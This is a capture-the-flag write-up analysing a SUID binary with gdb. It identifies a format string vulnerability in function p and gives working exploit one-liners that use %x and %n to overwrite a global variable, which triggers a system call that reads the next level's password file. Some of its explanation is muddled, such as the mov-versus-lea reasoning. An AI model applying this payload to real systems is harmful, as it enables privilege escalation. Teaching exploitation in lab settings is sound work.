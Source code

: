 # Level 4

## First clue
- once logged in as level4 we find again an executable, `level4` owned by `level5` and the SUID (SET USER ID) bit set(indicated by the s in place of the execute permission for the owner (rws)) that means that when anyone execute the file it will run with the privileges of level5, not the person executing it
- we try to execute it without arguments and we get the prompt back
- if we write something, that something is copied back as output

## Inspect with gdb
- The binary contains printf, fgets, system, external functions used for input/output operations and executing commands, indicating potential interaction with the user and system.
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  p
0x08048457  n
0x080484a7  main
0x080484c0  __libc_csu_init
0x08048530  __libc_csu_fini
0x08048532  __i686.get_pc_thunk.bx
0x08048540  __do_global_ctors_aux
0x0804856c  _fini
(gdb) pdisas frame_dummy


```
- there are three main functions, `main`, `p` and `n`
- first we inspect main
## Main
```
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    

```
- main is simple, makes a stack alignment and call function `n`
## Function n

```
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret  
```
- allocates 0x218 = 536 bytes
- reads input from user using fgets, storing input in buffer at 0x208(%ebp)
- it calls function p passing as argument the user input retrieved with fget and stored in 0x208 
- it compares the return of function p (the value stored in global variable m at address 0x8049810 that is moved to eax) to the value 0x1025544 (that is 16930116 in decimal) at <+59>-> `(gdb)x/s 0x8049810 = <m>: ""` also check `info variable`
- a conditional jump (jne, jump if not equal) suggests that function n decide to execute further instructions based on the return of function p. Which instructions? If the comparison return true it launch a shell via a call to system
## Function p
```
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.

```
- allocates 24 bytes (0x18 in hexa)
- it moves to eax regisster a value located at ebp+0x8 that could be an argument pased to the p function
- it passes that argument to the printf funciton
## Vulnerability
- `0x0804844a <+6>:	mov    0x8(%ebp),%eax` => this instruction MOVES THE CONTENT (and not the address) of the argument passed to p function (that is the user input) directly to eax for the printf function to use it as argument as well. This means that the string ritten by the user is passed to printf as it is, without proper validation .
If the proper validation had been put in place we should see instead a LEA (load effective address) of the argument passed to p.
We can exploit a format string vulnerability. How?

## Toward the Solution
- back to function n, it compares the content of the return of function p with the hexadecimal value 0x1025544, at this line `0x08048492 <+59>:  cmp    $0x1025544,%eax`. 0x1025544 is 16930116 in decimal.
If we find a way for function p to return value 16930116n we get true and the system call is triggered. 
## Finding Buffer Position: 
We first find the position of our buffer in memory by injecting format specifiers into the input string and observing the output.


`python -c 'print "aaaa" + " %x" * 15' | ./level4`
- we find `61616161` (4 times "a" in hexa) at position 12 after the output "aaaa" -> the format specifier %x without argument print the content of memory cases.

## Manipulating Return Value: 
Once we know the buffer's position (12), we construct an input string that manipulates the return value of function p to 16930116. This is done by padding the memory address of the variable m and using the %n format specifier.

`python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4`
Here, "\x10\x98\x04\x08" represents the memory address of m, and %16930112d pads the address, while %12$n writes the number of characters processed so far to the address pointed to by the 12th argument.

## Triggering System Call
With the return value manipulated, the comparison in function n will evaluate to true, triggering the system call that directly print the /level5/.pass containing the flag
